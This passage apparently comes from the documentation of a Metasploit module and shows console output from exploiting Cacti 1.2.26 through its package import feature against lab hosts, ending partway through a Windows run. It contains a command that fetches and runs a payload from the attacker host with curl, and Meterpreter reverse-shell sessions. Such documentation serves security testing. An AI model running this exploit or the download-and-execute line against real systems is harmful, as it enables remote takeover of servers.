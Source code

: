```

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 087c6bbb8c7d
OS          : Linux 087c6bbb8c7d 6.6.22-linuxkit #1 SMP PREEMPT_DYNAMIC Fri Mar 29 12:23:08 UTC 2024 x86_64
Meterpreter : php/linux
```

- Target 1 (Linux Command)
```
msf6 exploit(multi/http/cacti_package_import_rce) > exploit verbose=true rhosts=127.0.0.1 rport=8080 lhost=192.168.101.1 username=msfuser password=12345678

[*] Command to run on remote host: curl -so ./AynGghlaARy http://192.168.101.1:8080/DETWAARvN-XS_WA2cHnmIg; chmod +x ./AynGghlaARy; ./AynGghlaARy &
[*] Fetch handler listening on 192.168.101.1:8080
[*] HTTP server started
[*] Adding resource /DETWAARvN-XS_WA2cHnmIg
[*] Started reverse TCP handler on 192.168.101.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
[*] Triggering the payload
[*] Client 192.168.101.1 requested /DETWAARvN-XS_WA2cHnmIg
[*] Sending payload to 192.168.101.1 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.101.1
[+] Deleted /var/www/html/cacti/resource/R4imZxgqN.php
[+] Deleted /var/www/html/cacti/resource/AynGghlaARy
[*] Meterpreter session 3 opened (192.168.101.1:4444 -> 192.168.101.1:62224) at 2024-05-22 15:29:31 +0200

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.19.0.3
OS           : Debian 11.5 (Linux 6.6.22-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Cacti version 1.2.26 on Windows Server 2019
- Target 0 (PHP)
```
msf6 exploit(multi/http/cacti_package_import_rce) > exploit verbose=true rhosts=192.168.101.124 lhost=192.168.101.1 username=msfuser password=12345678

[*] Started reverse TCP handler on 192.168.101.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
```